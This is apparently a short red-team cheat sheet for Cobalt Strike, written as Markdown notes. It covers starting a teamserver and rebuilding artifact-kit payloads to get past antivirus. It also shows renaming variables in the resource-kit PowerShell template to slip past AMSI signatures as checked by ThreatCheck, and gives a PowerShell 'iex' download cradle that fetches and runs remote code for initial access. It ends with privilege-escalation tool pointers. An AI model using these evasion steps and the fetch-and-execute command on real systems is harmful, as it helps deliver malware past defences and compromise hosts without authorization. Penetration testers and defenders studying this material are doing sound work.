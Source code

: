 ```yaml
---
description: basic commands and tools to use during an engagement
---
```


# Cobalt Strike Red Team Cheat Sheet

### Start CS

```
./teamserver <IP> <Password> <path_to_profile>
```

### Implement Defense Evasion with artifact kit and resource kit

Modify src-common/bypass-pipe.c based on what threat checker flags on

rebuild payloads

```
./build.sh
```

pscp contents over and check test against ThreatChecker

```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe
```

Threat Checker

```
C:\>Tools\ThreatCheck\ThreatCheck.exe -f <Path to artifact.exe>
```

#### Resource Kit

check what triggers on PS scripts

```
C:\>Tools\ThreatCheck\ThreatCheck.exe -e AMSI -f Tools\cobaltstrike\ResourceKit\template.x64.ps1
```

Using a simple Find & Replace for `$x` - > `$i` and `$var_code` -> `$var_banana` seems to be enough:

Powershell command for inital access

```
iex (new-object net.webclient).downloadstring("http://IPADDRESS/uri_path")
```

### Host Enumeration for PrivEsc

Seatbelt - ton to sift through, start with SharpUp to start
